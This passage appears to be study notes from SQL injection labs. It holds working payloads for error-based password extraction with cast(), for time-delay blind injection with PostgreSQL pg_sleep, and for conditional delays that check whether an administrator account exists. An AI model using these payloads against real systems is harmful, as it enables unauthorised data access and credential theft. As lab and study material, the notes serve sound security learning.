 ```python
if __name__ == '__main__':
    sqli_run()
```

# Visible error-based SQL injection

The error is visible in the website

We can take advatage of the fact that we see the error to create an error that show the password:

```sql
' or 1=cast((select password from users limit 1) as INT)-- -
```

You can use cast() function an a nestead query to try to convert the string obtained in a INT(number) and cause an error.

If you try use 1=1-- -, 2=1-- - you see that the status code is the same, this means that you can't check 'a'='a' and compare characters as we have seen above.

# Blind SQL injection with time delays

Sometimes you try all and you don't found and see nothing. You can try time based injection to discover what type of engine is using you have the [cheatsheet of Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet).

In this case the database is postgress

```postgresql
H1mizzhfFww2LwyK'||pg_sleep(10)-- -
```

Remember you have to concadenate the sleep, in postgre is with `||`

# Blind SQL injection with time delays and information retrieval

When you try all and you see that doesn't respond with nothing you can try to use or sleep(5), pg_sleep(5)... With this example you're creating a new query.
```postgresql
'; select pg_sleep(5)-- -
```

But before send the request you have to url encode the semicolon because the browser think that you're indicating another type of cookie.
```postgresql
'%3b select pg_sleep(5)-- -
```


```postgresql
'%3b select case when(1=1) then pg_sleep(5) else pg_sleep(0)-- -
```

If the user administrator exist the webpage will take 5 seconds
```postgresql
'%3b select case when(username='administrator') then pg_sleep(5) else pg_sleep(0) end from users-- -
```

